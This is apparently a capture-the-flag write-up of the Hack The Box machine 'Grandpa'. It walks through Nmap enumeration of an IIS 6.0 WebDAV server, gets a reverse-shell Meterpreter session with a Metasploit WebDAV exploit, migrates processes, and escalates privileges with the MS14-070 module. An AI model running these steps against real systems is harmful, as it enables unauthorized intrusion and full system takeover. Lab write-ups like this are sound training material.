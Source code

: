 # HTB - Grandpa

#### Ip: 10.10.10.14
#### Name: Grandpa
#### Rating: Easy

----------------------------------------------------------------------

Grandpa.png

### Enumeration

Lets kick things off by scanning all TCP ports with Nmap. Here I will also use the `--min-rate 10000` flag to speed the scan up.

```text
┌──(ryan㉿kali)-[~/HTB/Grandpa]
└─$ sudo nmap -p-  --min-rate 10000 10.10.10.14  
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-03 10:11 CDT
Nmap scan report for 10.10.10.14
Host is up (0.066s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 13.41 seconds
```

Ok, looks like just port 80 is open. Lets also scan the port with `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/HTB/Grandpa]
└─$ sudo nmap -sC -sV -T4 10.10.10.14 -p 80    
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-03 10:13 CDT
Nmap scan report for 10.10.10.14
Host is up (0.073s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Server Type: Microsoft-IIS/6.0
|   Server Date: Thu, 03 Aug 2023 15:13:57 GMT
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|_  Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.08 seconds
```

We can see here that the site is running IIS 6.0, which is super old.

Navigating to the site we see the old-school and familiar Under Construction page from IIS 6 (I'm really dating myself here):

site.png

Searching for exploits for IIS 6 I find a page from Rapid7 (the owners of Metasploit), outlining the vulnerability.

rapid.png

This looks like it's definitely worth trying.

Lets open up Metasploit and find the right module:

msf.png

We can then update the lhost and Rhosts fields in Options:

options.png

Once set, all we need to do is `run` (or `exploit`, if you're feeling like Mr. Robot or something), and we open up a Meterpreter shell:

```text
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > run

[*] Started reverse TCP handler on 10.10.14.46:4444 
[*] Trying path length 3 to 60 ...
[*] Sending stage (175686 bytes) to 10.10.10.14
[*] Meterpreter session 1 opened (10.10.14.46:4444 -> 10.10.10.14:1030) at 2023-08-03 10:45:34 -0500


meterpreter > 
``` 

It appears the shell we are in however is a bit wonky:

```text
meterpreter > whoami
[-] Unknown command: whoami
meterpreter > getuid
[-] stdapi_sys_config_getuid: Operation failed: Access is denied.
```
If we run `ps` in Meterpreter, we can find list out running processes.

ps.png

Process 1736 seems especially interesting because it is running as  NT AUTHORITY\NETWORK SERVICE.

We can migrate to that process using the `migrate` command:

```text
meterpreter > migrate 1736
[*] Migrating from 1716 to 1736...
[*] Migration completed successfully.
meterpreter > getuid
Server username: NT AUTHORITY\NETWORK SERVICE
```

Cool. Now we'll need to focus on escalating our privileges to get the flags:

```text
C:\Documents and Settings>cd Administrator
cd Administrator
Access is denied.

C:\Documents and Settings>cd Harry
cd Harry
Access is denied.
```

Lets go ahead and `background` this session and import the local_exploit_suggester module to check for privilege escalation vectors for us:

bg.png

Nice, the module found quite a few possible vectors. I'm most interested in trying exploit/windows/local/ms14_070_tcpip_ioctl.

I can search for and use this mmodule and then set the session as well as my lhost IP adress:

```text
msf6 exploit(windows/local/ms14_070_tcpip_ioctl) > set session 1
session => 1
```

Once this runs we can interact with our session again using `sessions -i 1` and confirm the privilege escalation worked!

worked.png

We can now grab the two flags:

user_flag.png

root_flag.png

Thanks for following along!

-Ryan

----------------------------------------------------------------

